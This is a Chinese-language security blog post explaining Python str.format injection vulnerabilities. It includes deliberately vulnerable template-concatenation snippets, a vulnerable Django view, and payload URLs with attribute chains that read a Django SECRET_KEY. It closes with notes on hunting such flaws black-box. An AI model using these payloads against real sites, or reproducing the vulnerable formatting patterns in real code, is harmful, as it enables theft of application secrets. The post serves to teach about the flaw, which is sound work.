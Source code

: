 Title:python格式化字符串漏洞实践
Date: 2018-01-22 10:20
Category: python安全
Tags: 漏洞实践,Python,格式化字符串漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0、核心问题

如下面这个例子，从python2.6开始，就有了用format来格式化字符串的新特性，它可以通过{}来确定出字符串格式的位置和关键字参数，并且随时可以显式对数据项重新排序。此外，它甚至可以访问对象的属性和数据项——这是导致这里的安全问题的根本原因。

影响范围：Python 2.6及以后

```python
>>> print 'class of {0} is {0.__class__}'.format(42+1)
class of 43 is <type 'int'>
#可以看到，0.__class__获取到了输入对象（43）的类（int）。漏洞是建立在这个特性的基础之上的。
```

### 0x1、漏洞的必要条件

漏洞存在的必要条件是：可以控制字符串（一般是字符串拼接了用户的输入）

![insert_point](img/format_string_vuln/insert_point.png)

当然，要能正确利用，还需要保证控制的字符串语法的正确，即注入的对象名称必须和format参数传入的对象名称完全匹配。比如下面的例子：由于format传入的是"user=xxxx "，注入的字符串中，就必须是user.xxxx。

![对象正确](img/format_string_vuln/对象正确.png)



**实际代码中可能的字符串拼接方式有哪些呢？**

我能想到的：多次format  、利用加号的字符串拼接、利用%s的字符串拼接

```python
#多次format：  比如2次的情况，如果第一次被控制，将发生该漏洞
template = 'Hello {user}'
template = template.format(user ="{user.__class__}")#用户注入发生在这里
print template
print template.format(user="bit4")
```

![多次format](img/format_string_vuln/多次format.png)



```python
#用加号的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: ' + email
print template
print template.format(user="bit4")
```

![+字符串拼接](img/format_string_vuln/+字符串拼接.png)



```python
#利用%s的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: %s' %email
print template
print template.format(user="bit4")
```

![%s字符串拼接](img/format_string_vuln/s字符串拼接.png)



### 0x2、黑盒的思路

如果能看到代码，知道语句是怎么写的，当然容易构造出payload来注入到格式化字符串中，那么黑盒的时候，怎么办呢？phithon的文章中，给出了django中的一个例子。

```python
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))

然后给出的payload如下：
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}

{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.__groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

关于在黑盒的时候，如何成功挖掘该类漏洞，有几个关键问题：

Q：如何识别注入点？

A：如果识别不了，那就遍历所有可能的参数请求，



Q：如何找到一个可用的当前对象？

A：这一块好像没有很好的自动化方法，只有通过web的具体功能来猜测判断，比如，如果当前页面是用户登录后的欢迎页面，那么它很可能包含用户user对象，如果是展示展示一列订单，那么它很可能包含order对象.....等等



Q：是否存在一个通用对象呢？也就是每个请求中必然包含的对象是什么？或者一些框架或者web中常用的对象？

A：request对象应该算一个，但是实际的编程中几乎不会直接使用request对象。

​	至于有什么常用对象，目前回答不了...



Q：如何找到对象的可用属性？如何找到某个对象到系统敏感信息的对象属性链呢？

A：dir()函数可以查看某个对象的可用属性。

​	关于属性链，具体怎么查找还不清楚，但大致方向是，先通过当前属性，到达model等访问更广的全局属性（对象），从而再获取具体的属性。



参考：

https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html

http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/